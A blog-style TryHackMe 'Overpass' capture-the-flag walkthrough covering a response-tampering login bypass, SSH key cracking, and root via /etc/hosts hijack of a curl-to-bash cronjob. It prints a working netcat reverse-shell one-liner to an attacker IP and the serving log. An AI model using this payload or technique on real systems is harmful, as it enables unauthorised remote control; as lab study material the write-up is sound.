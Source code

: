 ```yaml
---
title: "TryHackMe Overpass Walkthrough"
date: 2022-06-27 18:40:00 +0530
layout: post
categories: THM
tags: [THM]
toc: true
---
```


# Overpass Writeup
### From Tryhackme

![image](https://user-images.githubusercontent.com/56447720/152143895-b8522100-61fa-42e1-8abb-306b80561bd4.png)

## Port Scan

![image](https://user-images.githubusercontent.com/56447720/152144739-6ae3e614-a68d-4bd7-9eca-884fcdea459f.png)

## Directory Scan

![image](https://user-images.githubusercontent.com/56447720/152144710-e6bb61eb-a1b5-408d-8f2e-5b107eb93395.png)

## Web Exploitation

- After seeing all the directories, `/admin` was most intresting to me
- Looking at the source code I found some intresting `.js` files

![image](https://user-images.githubusercontent.com/56447720/152147048-d4bc52bb-70d6-4af0-92b3-fba0257ca596.png)

- `login.js`

![image](https://user-images.githubusercontent.com/56447720/152147124-ee118f84-0d94-45ae-879c-de24d58c099c.png)

- This piece of code has an vulnerability, it checks the response of the browser and if it doesn't incorrect credentials,
it redirect us to the `/admin` page

### get admin privilege

- Intercept login request with burp suite and change the response to get admin panel
- Right click on the reques and > `Do intercept > Request to this response`

- This is the respose we get

![image](https://user-images.githubusercontent.com/56447720/152158989-93c0e69f-9364-4bdb-a243-64e95de1ba45.png)

- Updated response

![image](https://user-images.githubusercontent.com/56447720/152159958-e3988a42-f46f-475d-be48-e5134413fb09.png)

- Admin homepage

![image](https://user-images.githubusercontent.com/56447720/152148206-19006b3b-36a2-45ea-a01b-b5238cf6dd15.png)


## User Shell

- we got username from admin panel, I've used john to crack the ssh password

![image](https://user-images.githubusercontent.com/56447720/152148911-efbb5b6e-b5af-4542-bb3e-376f175f869f.png)

- We successfully got a shell

![image](https://user-images.githubusercontent.com/56447720/152149341-ed01b623-5068-40aa-b12b-c30461039446.png)

## Root shell

- I've used python server to get `linpeas` into the machine

![image](https://user-images.githubusercontent.com/56447720/152151534-86421dbc-71e7-46f0-9c42-2be09fe27284.png)
![image](https://user-images.githubusercontent.com/56447720/152151754-b3fe921b-929d-4572-83c0-0bc6247d1c09.png)

- We have permission to write in `/etc/hosts`

![image](https://user-images.githubusercontent.com/56447720/152152218-a5b9d408-6b3a-4faa-8f50-a7cc36630dfe.png)

- There's a cronjob running on root service which basicallay uses curl and pipe it into bash
- We are going to change the content of `/etc/hosts` , adding our ip as `overpass.thm`

![image](https://user-images.githubusercontent.com/56447720/152152639-020becb3-8d74-4c13-a70d-5b2bdb1935e5.png)

- First create files in your localhost

![image](https://user-images.githubusercontent.com/56447720/152157538-02d62286-55f3-4714-9dd1-d0a77ce6c4fd.png)

- Add a payload in `buildscript.sh`

```bash
└─$ cat downloads/src/buildscript.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.1.250 4444 >/tmp/f
```
- Add your ip and port `[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (IP) (PORT) >/tmp/f ]`

- Start a python3 server

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.120.231 - - [02/Feb/2022 18:17:05] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

```

- Start netcat listener 
- Wait around 1 minute to get root shell

![image](https://user-images.githubusercontent.com/56447720/152157330-44f27329-9a6c-4b35-acb7-47c158726fdb.png)

![image](https://user-images.githubusercontent.com/56447720/152157784-02ccbdd4-69f3-4b10-a99e-9ae361faae07.png)

